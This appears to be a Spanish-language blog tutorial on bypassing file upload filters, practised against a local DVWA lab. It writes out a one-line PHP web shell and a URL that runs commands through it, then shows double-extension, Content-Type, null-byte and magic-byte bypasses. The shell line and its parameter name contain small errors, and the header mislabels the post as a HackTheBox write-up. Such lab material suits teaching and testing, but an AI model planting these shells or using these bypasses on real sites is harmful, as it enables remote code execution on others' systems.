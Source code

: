 ```yaml
---
title: "File Upload"
layout: single
excerpt: Este es el "Write-Up" de la máquina **Armageddon** de la plataforma HackTheBox, maquina easy pero nunca esta demas compartir informacion, espero y les guste...  
header:
show_date: true
classes: wide
header:
  teaser: "/assets/images/File_Upload/File_upload.png"
  teaser_home_page: true
  icon: "/assets/images/File_Upload/File_upload.png"
categories:
  - Web Hacking
tags:
  - upload
  - hackweb


---
```


 ![](/assets/images/File_Upload/File_upload.png)  

Esta funcionalidad es esencial en casi todas las aplicaciones web permitiendo al usuario subir una foto, video, archivos de audio, CV , etc ...

Como siempre la subida de archivos es un riesgo notable en cualquier aplicacion web sino esta protegido correctamente esta funcionalidad.

Un hacker que tenga la hablidadad de hacer un bypass a esta funcioanlidad de la web podria  conseguir **Ejecución Remota de Comandos** `RCE`.

### 1.1 File Upload - básico

---

Creamos la shell 

```bash
echo '<?php system($_GET["cmd"]);?' >> test1.php
```

![](/assets/images/File_Upload/1.png)  

- Click `upload`

![](/assets/images/File_Upload/f2.png)  

- Accedemos a la url donde se guardo la shell

```http
http://localhost/DVWA/hackable/uploads/test1.php?c=pwd
```

![](/assets/images/File_Upload/f3.png)  

### 1.2 File Upload - extensión doble

---



Algunas aplicaciones web como medida de seguridad certifican la extension del archivo a subir. En otras palabras la subida de archivos está restringida a determinadas extensiones, no obstante,  en este caso veremos como añadiéndole una doble extensión hacemos un bypass.

```bash
mv test1.php tes1.php.png
```

![](/assets/images/File_Upload/f5.png)  

Interceptamos la petición con `Burpsuite` 

![](/assets/images/File_Upload/f6.png) 

- [x] Bypassed!

![](/assets/images/File_Upload/f2.png)

### 1.3 File Upload - content-type

---

Este tipo de restricción se encuentra en la cabecera http `Content-type` .Requiriendo manipular la petición.

![](/assets/images/File_Upload/f7.png)

### 1.4 File Upload - caracter hexadecimal nulo

---
Uno de los enfoques interesantes para cargar documentos permiciosos es utilizar caracteres de `bytes nulos` codificados en URL. El acceso no aprobado a los documentos del sistema podría obtenerse a través de dicha infusión de un byte no válido que da como resultado un `espacio en blanco` en la interpretación ASCII. La incrustación de un byte no válido conducirá a una aplicación web que utilice bibliotecas C / C ++ al verificar el nombre del registro o su contenido. Intentará engañar como si fuera el final de la cadena, y debería dejar de leer detenidamente en esta progresión.

Antes de cargar nuestro archivo PHP, hagamos un pequeño cambio y cambiemos el nombre.

```bash
mv  test1.php  test1.phpA.jpeg
```

- Interceptamos la peticion y la mandamos al `Decoder`

   ![](/assets/images/File_Upload/f9.png)

- El caracter `A`, el cual es el # 41 en `HEX` lo usaremos para identificarlo posteriormente en la petición.

El propósito es identificar rápidamente este caracter en el campo hexadecimal y cambiarlo al caracter nulo antes de enviar la solicitud. 

![](/assets/images/File_Upload/f8.png)

### 1.5 File Upload - números mágicos

---

Usualmente algunas web suelen validar la cabecera hexadecimal  de la imagen.Lógicamente sabiando esto se podría lograr un bypass.

| Extensiones | Cabeceras Hexadecimales |
| ----------- | :---------------------- |
| PNG         | 89 50 4E 47             |
| JPEG        | FF D8 FF E0 / FE        |
| PDF         | 25 50 44 46             |
| DOC         | D0 CF 11 E0             |

- Para cambiar las cabeceras hexadecimales utilizaremos el binario `hexeditor` 
 - Cambiando el `primer octeto` de bytes les quedaría así

   ![](/assets/images/File_Upload/f10.png)

